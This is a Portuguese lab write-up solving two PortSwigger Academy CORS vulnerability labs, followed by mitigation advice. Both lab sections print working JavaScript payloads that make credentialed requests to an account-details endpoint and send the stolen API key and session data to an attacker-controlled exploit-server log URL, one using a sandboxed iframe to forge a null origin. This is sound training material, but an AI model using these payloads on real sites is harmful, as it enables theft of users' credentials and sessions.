









<div class="page"/>

# **CORS | Sonael de A. Angelos Neto**

- ## **Introdução a Exploração de vulnerabilidade no CORS**

  - ### **O que é CORS?**

    *CORS* (Cross-Origin Resource Sharing) é um mecanismo de segurança que restringe acesso de aplicativos de origem diferente a recursos protegidos em um servidor. Ele funciona adicionando cabeçalhos HTTP específicos para permitir que um navegador e um servidor se comuniquem e determinem se devem ou não permitir que um script de origem cruzada acesse um determinado recurso. Isso ajuda a impedir que ataques de origem cruzada, como o roubo de sessão, ocorram em aplicativos web.


  - ### **Como funciona a exploração?**

    Existem algumas maneiras pelas quais um hacker pode explorar falhas no *CORS* para realizar ataques de origem cruzada. Algumas das técnicas mais comuns incluem:

    - **Explorando configurações de *CORS* inadequadas:** Se o servidor não estiver configurado corretamente para gerenciar o *CORS*, ele pode permitir que scripts de origem cruzada acessem recursos protegidos.

    - **Injeção de cabeçalhos:** Um hacker pode injetar cabeçalhos personalizados em uma solicitação HTTP para contornar as restrições de *CORS* e acessar recursos protegidos.

    - **Ataques de origem cruzada forjada:** Um hacker pode criar um site malicioso que se parece com um site legítimo e usá-lo para enganar os usuários e acessar recursos protegidos.

    - **Explorando vulnerabilidades de software:** Algumas vulnerabilidades de software podem ser exploradas para permitir que scripts de origem cruzada acessem recursos protegidos.

    É importante notar que, esses são alguns exemplos, e existem outras formas de exploração de falhas no *CORS*, por isso é importante manter sempre o software atualizado e configurar o *CORS* de forma adequada.
    

  ### Nesse documento, iremos explorar a vulnerabilidade no `"CORS"`, utilizando **2** laboratórios diferentes da [Portswigger Academy](https://portswigger.net/web-security/all-labs), sendo eles:

  - #### ***CORS vulnerability with basic origin reflection.***
  - #### ***CORS vulnerability with trusted null origin.***


---

<div class="page"/>


### **Ferramentas utilizadas:**

- #### [Burp Suite](https://portswigger.net/burp) :
    - Utilizaremos o `Burp Suite` para interceptar as requisições e analisar o que está sendo enviado para o back-end.

---

## **• CORS vulnerability with basic origin reflection.**

Nesse laboratório, iremos explorar uma vulnerabilidade no CORS, para isso, iremos logar com as credenciais `wiener:peter` e utilizar o **Burp Suite** para analisar a requisição.

Ao analisar as requisições feitas na hora do login, podemos ver que através de uma requisição `GET` para o endereço `/accountDetails` o servidor está retornando um `JSON` com as informações do usuário através de uma requisição `GET` para o endereço `/accountDetails`.

**Request** | **Response** 
:---------: | :------:
 |


Ao adicionar ao cabeçalho dessa requisição o `Origin: https://sonaelneto.net`, o servidor reflete o valor do `Origin` no cabeçalho `Access-Control-Allow-Origin` da resposta, permitindo que o navegador faça a requisição.

``` http

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://sonaelneto.net
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "cmZDTS2LwN4s4k8Hd09Z2TluyAuLBRYn",
  "sessions": [
    "kTwrvGAS4ZuDF5ZfirBDZHyFv9INWLG1"
  ]
}

```

Isso significa que podemos fazer uma requisição para o endereço `/accountDetails` e obter as informações do usuário, mesmo que o servidor não tenha sido configurado para aceitar requisições de outros domínios.

Para isso, iremos utilizar o **exploit server** do laboratório, que permite criarmos um script para fazer requisições para o servidor do laboratório. Lá iremos adicionar o seguinte script no campo **body**:


``` javascript

<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0aa0008c04059ddec0e081b30009005d.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>

```

O script acima faz uma requisição para o endereço `/accountDetails` e envia o resultado para o endereço `/log?key=`, que é um servidor que temos acesso.

Apos enviar o script, iremos clicar no botão **access log** para ver o resultado da requisição.

> `"GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%228v2Zeyxe7kB7J9KzHw5A7gzklQVsZa3y%22,%20%20%22sessions%22:%20[%20%20%20%20%225Mj3Voe4fvprJ6J28Liuu2BmWGmqUimG%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"`

<div class="page"/>

Porém, o resultado da requisição está codificado para ser usado em **URL's**, para decodificar, iremos utilizar o site [URL Decoder](https://www.urldecoder.org/).



E como podemos ver, o resultado da requisição é o seguinte:

``` json

{
  "username": "administrator",
  "email": "",
  "apikey": "8v2Zeyxe7kB7J9KzHw5A7gzklQVsZa3y",
  "sessions": [
     "5Mj3Voe4fvprJ6J28Liuu2BmWGmqUimG"
  ]
}

```

<div class="page"/>

Agora basta submeter a `apikey` para concluirmos o laboratório.




---

## **• CORS vulnerability with trusted null origin.**

Nesse laboratório,também temos o objetivo de explorar uma vulnerabilidade no CORS, para isso, iremos logar com as credenciais `wiener:peter` e utilizar o **Burp Suite** para analisar a requisição.

Então ao logar com as credenciais, podemos ver que o servidor também está retornando um `JSON` com as informações do usuário através de uma requisição `GET` para o endereço `/accountDetails`.

Dessa vez, o servidor não está refletindo o valor do `Origin` no cabeçalho `Access-Control-Allow-Origin` da resposta quando adicionamos o `Origin: https://sonaelneto.net` no cabeçalho da requisição.

**Request** | **Response** 
:---------: | :------:
 |


Porém se adicionarmos o `Origin: null` no cabeçalho da requisição, o servidor reflete o valor do `Origin` no cabeçalho `Access-Control-Allow-Origin` da resposta.

``` http

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "2CQarMFEnpoTmzpQVzKmdB0BMlUL0oFG",
  "sessions": [
    "6Z9t0bvfCjQcBrFo0QC063fJ9pBaSJUN"
  ]
}

``` 

Sabendo disso iremos criar um faz uma requisição para o endereço `/accountDetails`:

``` html

<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ace00ff0403efc3c385a19300ec00da.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0a32009204bcef26c39fa06e010a00f4.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>


```

No script acima, iremos fazer uma requisição para o endereço `/accountDetails` e enviar o resultado para o endereço `/log?key=`, que é um servidor que temos acesso. O uso do `iframe` gera uma requisição com o `Origin: null` no cabeçalho da requisição.

Note que também estamos usando o `location='https://exploit-0a32009204bcef26c39fa06e010a00f4.exploit-server.net/log?key='+encodeURIComponent(this.responseText);` para enviar o resultado da requisição para o servidor que temos acesso.

Agora basta colocar o script no campo **body** do **exploit server** e clicar em **Deliver exploit to victim**.

Ao acessar os logs do servidor, podemos ver que o resultado da requisição foi enviado com sucesso.

> `/log?key=%7B%0A%20%20%22username%22%3A%20%22administrator%22%2C%0A%20%20%22email%22%3A%20%22%22%2C%0A%20%20%22apikey%22%3A%20%223YmaSPmQbpXBtpPol6D8Pus2vVG5djgt%22%2C%0A%20%20%22sessions%22%3A%20%5B%0A%20%20%20%20%22wAOfVTqAhDAb8e8JrVqEwHFuASoe4QmY%22%0A%20%20%5D%0A%7D HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"`

Porém, o resultado da requisição está codificado para ser usado em **URL's**, para decodificar, iremos utilizar o site [URL Decoder](https://www.urldecoder.org/).



E como podemos ver, o resultado da requisição é o seguinte:

``` json

{
  "username": "administrator",
  "email": "",
  "apikey": "3YmaSPmQbpXBtpPol6D8Pus2vVG5djgt",
  "sessions": [
    "wAOfVTqAhDAb8e8JrVqEwHFuASoe4QmY"
  ]
}

```

<div class="page"/>

Agora basta submeter a `apikey` para concluirmos o laboratório.




---

## **• Mitigação.**


***Existem várias maneiras de mitigar vulnerabilidades no CORS, algumas delas incluem:***

- **Configurar o CORS corretamente:** É importante configurar o CORS de forma adequada, incluindo especificar quais origens são permitidas acessar recursos protegidos e quais cabeçalhos HTTP são permitidos.

- **Aplicar autenticação e autorização:** Certificar-se de que somente usuários autenticados e autorizados possam acessar recursos protegidos.

- **Implementar uma política de segurança de conteúdo (CSP):** Uma política de segurança de conteúdo pode ajudar a mitigar as vulnerabilidades de CORS, restringindo quais scripts e origens são permitidos acessar recursos protegidos.

- **Usando protocolo seguro (HTTPS):** O uso de um protocolo seguro, como HTTPS, impede que os atacantes interceptem e modifiquem as solicitações HTTP, incluindo as solicitações CORS.

- **Atualizar regularmente o software:** Mantenha todos os software de servidor e cliente atualizado, pois isso ajuda a garantir que as vulnerabilidades conhecidas sejam corrigidas rapidamente.

- **Monitoramento de logs:** Monitoramento de logs e análise pode ajudar a detectar atividade suspeita e identificar possíveis ataques de origem cruzada.

***Também existem alguns cuidados importantes a serem tomados ao trabalhar com cabeçalhos de solicitação HTTP para garantir que as vulnerabilidades de CORS sejam mitigadas:***

- **Verifique se as origens permitidas estão corretamente configuradas no servidor:** Certifique-se de que apenas as origens confiáveis estão autorizadas a acessar recursos protegidos.

- **Verifique se os cabeçalhos permitidos estão corretamente configurados:** Certifique-se de que apenas os cabeçalhos esperados são aceitos e processados, e rejeite qualquer solicitação com cabeçalhos não reconhecidos ou não esperados.

- **Verifique se os cabeçalhos personalizados não estão sendo injetados:** Certifique-se de que os cabeçalhos enviados com uma solicitação são válidos e esperados, e rejeite qualquer solicitação que contenha cabeçalhos inválidos ou não esperados.

---

<div class="page"/>

## **• Dificuldades.**

*Nenhuma dificuldade relevante. =}*

---

## **• Conclusão.**

Concluindo, o *CORS* é uma ferramenta importante para garantir a segurança de aplicativos web, pois ajuda a impedir ataques de origem cruzada. No entanto, é importante estar ciente das vulnerabilidades que podem ser exploradas por hackers e tomar medidas para mitigá-las. Isso inclui configurar o *CORS* corretamente, validar cabeçalhos, aplicar autenticação e autorização, implementar uma política de segurança de conteúdo, usando protocolo seguro, atualizar regularmente o software e monitorar os logs. Ao seguir essas práticas, é possível garantir que os recursos protegidos estejam seguros contra ataques de origem cruzada e garantir a segurança de aplicativos web.

---

## **• Referências.**

- [Mozilla - Cross-Origin Resource Sharing (CORS) ](https://developer.mozilla.org/pt-BR/docs/Web/HTTP/CORS)

- [Portswigger - Cross-origin resource sharing (CORS)](https://portswigger.net/web-security/cors)

- [ChatGPT](https://chat.openai.com/chat)


---

## **• Laboratórios.**

- [CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

- [CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)


